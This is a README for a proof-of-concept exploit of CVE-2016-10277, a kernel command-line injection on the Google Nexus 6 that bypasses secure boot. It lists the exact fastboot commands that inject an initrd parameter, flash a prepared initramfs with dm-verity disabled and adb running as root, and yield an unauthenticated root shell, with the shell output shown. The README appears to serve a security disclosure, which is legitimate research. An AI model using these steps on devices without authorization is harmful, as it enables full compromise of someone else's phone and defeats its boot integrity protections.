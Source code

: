 # PoC for initroot: Google Nexus 6 Kernel Command Line Injection Secure Boot Bypass (CVE-2016-10277) #

Steps:

1. Use the commited `initroot.cpio.gz`, or produce your own:

```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot.cpio.gz
$ cd ..
```

Our commited initramfs contains an AOSP userdebug root partition with adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the system partition.

2. fastboot oem config fsg-id "a initrd=0x11000000,<initroot.cpio.gz size>"
3. fastboot flash foo initroot.cpio.gz
4. fastboot continue
5. if you use our initramfs, `adb shell` will now give you a root shell:

```
$ adb shell
shamu:/ # id 
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```


Blog post with details is available [here](https://alephsecurity.com/2017/05/23/nexus6-initroot/)


